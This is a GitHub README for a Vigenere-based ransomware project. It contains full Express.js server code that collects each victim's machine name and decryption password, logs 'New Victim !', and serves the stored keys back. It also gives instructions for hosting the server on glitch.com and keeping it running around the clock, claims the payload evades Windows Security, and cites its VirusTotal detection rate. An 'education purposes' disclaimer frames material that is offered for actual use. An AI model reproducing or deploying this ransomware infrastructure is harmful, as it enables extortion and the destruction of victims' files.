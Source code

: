 # REVENGE RANSOMEWARE
a vigenere encrypt ransomeware created by me :p, for education purpose.
**MAKE SURE TO STAR THE REPOSITORY :)**

# Used Algorithm
- Vigenere (which is strong algorithm)

# DISCLAIMER
i didnt try this fully, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also **i created this only for education purposes**,
also windows security **wont** detect this ransomeware :) 

# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
  res.send("done")
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) to create projects to get the decrypt password, if you want fresh project [clickhere](https://glitch.com/edit/#!/remix/revenge-ransome), but make sure to make the project 24/7 by using service like uptimerobot.


# Detection
15/72
[Virustotal Scan Result](https://www.virustotal.com/gui/file/b74d62a432a9011e2d2c8cf16790a21bd0253ba5d5df09c08e993020985ddc1c/detection)

![virustotal](https://g.top4top.io/p_1614y4m991.png)


# Change Log:
- Now includes the decryption software :) 


![decryptsoftware](https://i.top4top.io/p_1604d9ahl1.png)



- Now supports encrypting folders .

